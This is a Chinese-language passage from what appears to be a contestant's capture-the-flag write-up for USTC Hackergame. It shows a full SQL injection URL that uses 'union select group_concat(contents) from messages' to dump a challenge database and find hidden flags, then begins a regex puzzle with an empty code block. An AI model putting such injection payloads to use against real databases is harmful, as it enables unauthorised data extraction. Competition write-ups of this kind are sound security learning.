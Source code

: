 我当时的第一反应是：我尼玛玩我呢，这就是你的 shown=false ？

于是怒而直接把数据库里的东西全输出出来：

https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,group_concat(contents)%20from%20messages%20--

然后直接 Ctrl+F

![全部输出](15.png "全部输出")

然后这时才想起来这道题在有flag 的页面前面加了一大堆换行（

用这个方法也是可以直接拿到 2 个 flag 的。

## 强大的正则表达式

#### Easy
第一问要求输出一个正则表达式，匹配出可以被 16 整除的数字。因为一个数除 4 的余数只跟其最后 4 位有关，因此不难穷举出所有情况。（脚本没了，只剩下这个字符串）：

```Python
```